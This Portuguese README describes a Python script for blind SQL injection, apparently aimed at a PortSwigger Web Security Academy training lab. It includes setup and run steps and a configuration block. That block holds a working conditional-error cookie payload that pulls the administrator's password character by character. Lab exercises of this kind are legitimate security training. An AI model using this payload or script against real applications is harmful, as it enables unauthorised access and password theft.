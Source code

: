# Blind SQL Injection Exploit

Este repositório contém um script Python para explorar vulnerabilidades de **Blind SQL Injection** em uma aplicação web. O script é projetado para descobrir senhas de usuários de forma incremental, testando caracteres um por um.

## 📋 Requisitos ##

- Python 3
- Biblioteca `requests` instalada (`pip install requests`)

## 🚀 Como Usar ##

1. **Clone o repositório:**
   ```bash
   git clone https://github.com/seu-usuario/sqli-exploit.git
   cd sqli-exploit
   
2. **Configure o exploit com os parametros de ataque**
-- Linha 97:
# Configurações do ataque
url = "https://0a0800ab035dfe87808d3fa400370034.web-security-academy.net/"
max_requests = 1000
status_check = 500
cookie_template = "'||(SELECT CASE WHEN SUBSTR(password,$1,1)='$2' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'"
tamanho_senha = 20  # Defina o comprimento estimado da senha

3. **Execute o exploit**
   python3 fuzzer_for_blind_sqli.py
